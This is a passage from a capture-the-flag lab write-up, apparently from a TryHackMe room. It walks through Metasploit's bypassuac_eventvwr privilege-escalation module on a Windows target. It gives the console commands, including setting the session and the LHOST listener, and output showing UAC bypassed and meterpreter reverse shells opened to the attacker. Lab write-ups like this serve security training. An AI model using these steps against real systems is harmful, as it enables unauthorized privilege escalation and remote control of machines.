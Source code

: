     ```bash
    msf6 exploit(windows/http/icecast_header) > use exploit/windows/local/bypassuac_eventvwr
    [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
    msf6 exploit(windows/local/bypassuac_eventvwr) >
    ```

- Local exploits require a session to be selected (something we can verify with the command `show options`), set this now using the command `set session SESSION_NUMBER`

    ```bash
    msf6 exploit(windows/local/bypassuac_eventvwr) > show options 

    Module options (exploit/windows/local/bypassuac_eventvwr):

    Name     Current Setting  Required  Description
    ----     ---------------  --------  -----------
    SESSION                   yes       The session to run this module on.


    Payload options (windows/meterpreter/reverse_tcp):

    Name      Current Setting  Required  Description
    ----      ---------------  --------  -----------
    EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
    LHOST     192.168.40.129   yes       The listen address (an interface may be specified)
    LPORT     4444             yes       The listen port


    Exploit target:

    Id  Name
    --  ----
    0   Windows x86


    msf6 exploit(windows/local/bypassuac_eventvwr) > set session 2
    session => 2
    ```

- Now that we've set our session number, further options will be revealed in the options menu. We'll have to set one more as our listener IP isn't correct. What is the name of this option?
> LHOST

- Set this option now. You might have to check your IP on the TryHackMe network using the command `ip addr`

    ```bash
    msf6 exploit(windows/local/bypassuac_eventvwr) > set lhost 10.11.25.205
    lhost => 10.11.25.205
    ```

- After we've set this last option, we can now run our privilege escalation exploit. Run this now using the command `run`. Note, this might take a few attempts and you may need to relaunch the box and exploit the service in the case that this fails.

    ```bash
    msf6 exploit(windows/local/bypassuac_eventvwr) > run

    [*] Started reverse TCP handler on 10.11.25.205:4444 
    [*] UAC is Enabled, checking level...
    [+] Part of Administrators group! Continuing...
    [+] UAC is set to Default
    [+] BypassUAC can bypass this setting, continuing...
    [*] Sending stage (175174 bytes) to 10.10.169.246
    [*] Configuring payload and stager registry keys ...
    [*] Meterpreter session 3 opened (10.11.25.205:4444 -> 10.10.169.246:49248) at 2021-01-28 04:08:54 -0500
    [*] Executing payload: C:\Windows\SysWOW64\eventvwr.exe
    [+] eventvwr.exe executed successfully, waiting 10 seconds for the payload to execute.
    [*] Sending stage (175174 bytes) to 10.10.169.246
    [*] Meterpreter session 4 opened (10.11.25.205:4444 -> 10.10.169.246:49265) at 2021-01-28 04:08:56 -0500
